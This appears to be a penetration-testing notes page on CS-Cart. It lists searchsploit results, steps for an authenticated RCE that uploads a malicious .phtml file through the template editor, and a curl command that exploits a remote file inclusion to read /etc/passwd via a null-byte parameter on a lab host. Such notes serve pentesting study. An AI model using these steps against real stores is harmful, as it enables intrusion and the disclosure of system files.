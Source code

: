 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# CS-Cart

CS-Cart is a web-based content management system focused on building and managing online stores and e-commerce websites. It provides features such as product catalog management, user administration, and customizable templates to streamline storefront creation and maintenance. CS-Cart operates over standard web ports, typically TCP `80` for HTTP and `443` for HTTPS, delivering content and processing user interactions through web protocols.

## Version Enumeration

<figure><img src="../../.gitbook/assets/payday_install_version.png" alt=""><figcaption></figcaption></figure>

## Authenticated RCE

{% code overflow="wrap" %}
```bash
$ searchsploit cs-cart 1.3.3
CS-Cart 1.3.3 - authenticated RCE | php/webapps/48891.txt
```
{% endcode %}

PoC [info](https://gist.github.com/momenbasel/ccb91523f86714edb96c871d4cf1d05c):

1. Login via `<target>/admin.php` and go to _Look and Feel_ → _Template editor_
2. Upload the malicious `.php` file (rename it to `.phtml`)
3. Call the file via the appropriate path, e.g. , `http://<target>/skins/malicious.phtml`

<figure><img src="../../.gitbook/assets/cart-cs_cms_rce.png" alt=""><figcaption></figcaption></figure>

## Unauthenticated RFI

{% code overflow="wrap" %}
```bash
$ searchsploit cs-cart 1.3.3
CS-Cart 1.3.3 - 'classes_dir' Remote File Inclusion | php/webapps/1872.txt

$ curl -s 'http://pgbox/classes/phpmailer/class.cs_phpmailer.php?classes_dir=/etc/passwd%00'
```
{% endcode %}
